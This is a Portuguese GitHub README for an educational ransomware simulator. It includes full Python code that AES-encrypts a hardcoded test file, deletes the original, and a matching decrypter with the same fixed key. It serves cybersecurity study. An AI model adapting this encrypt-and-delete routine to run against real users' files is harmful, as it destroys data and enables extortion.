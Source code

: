 ## 🔒 Simulador de Ransomware em Python:
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

## 📌 Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

## 📌 Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

## 🚀 Tecnologias Utilizadas
Python 3
Kali Linux
**Biblioteca **pyaes

## 📥 Instalação e Execução
🔹 1. Clonar o repositório
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter
python encrypter.py
Isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter
python decrypter.py
Isso removerá o arquivo criptografado e restaurará teste.txt.

## 📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
